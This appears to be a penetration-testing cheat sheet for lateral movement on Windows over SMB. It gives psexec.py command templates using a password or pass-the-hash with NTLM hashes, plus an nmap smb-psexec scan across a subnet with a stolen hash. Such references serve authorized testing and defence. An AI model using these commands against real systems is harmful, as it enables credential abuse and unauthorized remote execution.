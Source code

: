 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - psexec
  - network-protocols
  - smb
  - windows
---
```

# Unix Shell

## 01 - Impacket

```
$ psexec.py [<domain>/]<username>:<password>@<IP> [-codecs <codec>]
```

Pass the Hash

```
$ psexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ psexec.py [<domain>/]<username>@<IP> -hashes 0000000000000000000000000000000:<nt_hash>

$ psexec.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash>

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash>
```

## 02 - Network Mapper

```
$ nmap -p 445 -Pn --script smb-psexec --script-args 'smbuser=<username>,smbhash=<nt_hash>' <IP>/<CIDR>
```